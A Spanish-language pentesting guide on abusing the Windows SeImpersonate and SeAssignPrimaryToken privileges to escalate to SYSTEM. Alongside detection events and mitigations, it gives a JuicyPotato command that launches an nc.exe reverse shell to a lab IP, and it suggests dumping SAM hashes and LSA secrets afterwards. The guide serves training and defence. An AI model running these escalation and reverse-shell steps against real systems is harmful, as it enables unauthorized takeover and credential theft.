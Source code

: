 # Lienzo: SeImpersonate y SeAssignPrimaryToken

> **Objetivo:** entender, detectar y explotar (en entornos controlados) los privilegios **SeImpersonatePrivilege** y **SeAssignPrimaryTokenPrivilege** en Windows. Incluye definiciones, flujo de ataque (JuicyPotato / PrintSpoofer), comprobaciones, artefactos de detección y mitigaciones.

---

## 1. Resumen ejecutivo

* Windows maneja *tokens* de acceso (Access Tokens) que describen el contexto de seguridad de un proceso (SIDs, grupos, privilegios, etc.).
* **SeImpersonatePrivilege** permite a un proceso **impersonar** (tomar el contexto de) otro usuario después de que ese usuario se haya autenticado.
* **SeAssignPrimaryTokenPrivilege** permite **asignar o crear un token primario** para un proceso (CreateProcessAsUser-like), y es más poderoso y restringido.
* Ambos privilegios son potentes porque permiten escalar privilegios localmente: e.g., transformar un proceso con privilegios de servicio en uno con contexto `NT AUTHORITY\SYSTEM`.
* Ataques clásicos: **JuicyPotato**, **RoguePotato**, **PrintSpoofer** — abusan de servicios localmente ejecutándose como SYSTEM que conectan a un objeto RPC/COM y permiten la exfiltración/uso del token.

---

## 2. Conceptos clave

* **Token de acceso (Access Token):** estructura en memoria que contiene identidad del usuario (SID), grupos, privilegios y lista de restricción.
* **Impersonation vs Primary Token:**

  * *Impersonation token* — usado por un thread para actuar como cliente; no siempre puede crear procesos.
  * *Primary token* — token asignado a un proceso, permite crear procesos con ese contexto.
* **SeImpersonatePrivilege:** concede la capacidad de `Impersonate a client after authentication`.
* **SeAssignPrimaryTokenPrivilege:** concede la capacidad de `Replace a process level token` (crear/colocar tokens primarios).
* **CreateProcessWithTokenW** y **CreateProcessAsUser** son APIs que requieren distintos privilegios: CreateProcessWithTokenW necesita token válido y el llamador debe poder usarlo (normalmente SeImpersonate puede ser suficiente en combinaciones con técnicas de token stealing); CreateProcessAsUser requiere SeAssignPrimaryToken.

---

## 3. ¿Por qué son críticos en pentesting?

* Muchos servicios (IIS, SQL Server, servicios Windows, spooler) corren con cuentas de servicio que tienen **SeImpersonate** o **SeAssignPrimaryToken** habilitado.
* Si obtenés ejecución en el contexto de uno de esos servicios (ej. `nt service\mssql$sqlexpress01`, `iis apppool\defaultapppool`), podés comprobar inmediatamente si el servicio tiene dichas privilegios y, si es positivo, intentar escalada rápida a `SYSTEM`.
* Estas escaladas son fáciles y rápidas: pocos comandos y herramientas públicas (JuicyPotato, PrintSpoofer).

---

## 4. Flujo típico de explotación (alto nivel)

1. Obtención de RCE en contexto de servicio no-SYSTEM (ej. shell vía `xp_cmdshell`, web shell en IIS, Jenkins RCE).
2. Ejecutar `whoami /priv` o PowerShell para listar privilegios.
3. Si aparece `SeImpersonatePrivilege` (Enabled) o `SeAssignPrimaryTokenPrivilege` → preparar exploit (JuicyPotato/PrintSpoofer).
4. Subir ejecutable de explotación (JuicyPotato.exe / PrintSpoofer.exe) + binarios auxiliares (nc.exe o reverse shell payload).
5. Ejecutar exploit apuntando a COM server id / listening port apropiado.
6. Si tiene éxito, obtendrás un proceso con token `NT AUTHORITY\SYSTEM` (shell remoto) o CreateProcessAsUser OK.

---

## 5. Ejemplo práctico (resumen de pasos usados en labs)

* Comprobar privilegios:

  ```powershell
  whoami /priv
  # o en PowerShell
  Get-Process -Id $PID | ForEach-Object { [Security.Principal.WindowsIdentity]::GetCurrent().Groups }
  ```
* Descargar y ejecutar JuicyPotato (ejemplo):

  ```cmd
  JuicyPotato.exe -l 53375 -p C:\Windows\System32\cmd.exe -a "/c C:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
  ```
* Resultado esperado: `CreateProcessWithTokenW OK` y conexión reversa con `NT AUTHORITY\SYSTEM`.

> Nota: Ubicaciones y flags varían según la herramienta y la versión de Windows. JuicyPotato deja de funcionar en versiones recientes; PrintSpoofer o RoguePotato pueden funcionar en builds más nuevas.

---

## 6. Artefactos y pistas de detección (logs/telemetría)

* **Eventos de seguridad**:

  * 4624/4634: logons (especialmente por servicios y SYSTEM).
  * 4688: proceso creado (buscar procesos inusuales lanzados por servicios: cmd.exe, powershell.exe, nc.exe, rundll32.exe desde servicios).
* **Sysmon (recomendado)**:

  * EventID 1 (Process Create): observar procesos hijo de servicios (svchost, sqlservr.exe, w3wp.exe) que lancen cmd.exe/powershell.
  * EventID 11/12/7: actividad en archivos subidos.
  * EventID 3 (Network) y 10 (ProcessAccess) para rastrear acceso entre procesos.
* **EPP/EDR**: creación de procesos con tokens differentes o llamadas a CreateProcessWithTokenW pueden disparar firmas.
* **Named pipes / COM bindings**: herramientas Potato crean listeners (named pipes / RPC endpoints) — revisá conexiones IPC y registros de server COM.

---

## 7. Comprobaciones y hunting (quick wins)

* Desde una shell con permisos: `whoami /priv`.
* Listar privilegios en objetos y servicios: `sc qc <servicename>`, revisar `Log On As`.
* Buscar cuentas con SeImpersonate habilitado (PowerShell):

  ```powershell
  # Requires AD / local audit scripts; para local: dump privileges with ntdsutil or tools como AccessChk
  accesschk.exe -k *  # muestra privilegios en cuentas/servicios (sysinternals accesschk)
  ```
* En entorno AD, buscar GPOs o hardening que remuevan SeImpersonate de grupos no necesarios.

---

## 8. Mitigaciones y hardening

* **Eliminar SeImpersonate y SeAssignPrimaryToken** de cuentas que no lo necesitan (Local Security Policy -> User Rights Assignment) o mediante GPO.
* **Principio de menor privilegio**: los servicios no deberían ejecutarse con cuentas que necesiten esos privilegios.
* **Segregar servicios**: evitar usar cuentas con amplios derechos en servicios accesibles por usuarios/clients.
* **Harden LSASS/Protecciones**: PPL, Credential Guard en entornos soportados.
* **EDR / Sysmon**: monitorizar creación inusual de procesos y llamadas a APIs sensibles (CreateProcessWithTokenW, CreateProcessAsUser).
* **Aplicar Application Whitelisting** y control de ejecución en servidores críticos.

---

## 9. Checklist para pentester (cuando encontrás RCE en servicio)

1. `whoami /priv` — ¿SeImpersonate o SeAssignPrimaryToken aparecen?
2. Subir JuicyPotato/PrintSpoofer (o usar versiones publicadas) a ruta temporal.
3. Ejecutar con parámetros apropiados (puerto COM/CLSID, payload).
4. Si falla, probar alternativas (PrintSpoofer, RoguePotato, distintos CLSIDs).
5. Si obtienes SYSTEM, recolectar evidencia y continuar post-exploitation con cuidado (hashes SAM, LSA secrets si aplica).
6. Documentar y reportar: qué cuenta tenía el privilegio, cómo se explotó, recomendaciones de mitigación.

---

## 10. Recursos recomendados

* Artículos técnicas sobre JuicyPotato, PrintSpoofer, RoguePotato y token impersonation.
* Documentación Microsoft sobre tokens y privilegios (Token, CreateProcessWithTokenW, CreateProcessAsUser).



*Pista: usa este lienzo como guía rápida en tus laboratorios. Para cada objetivo real, adapta los comandos y asegúrate de trabajar siempre en entornos autorizados y aislados.*
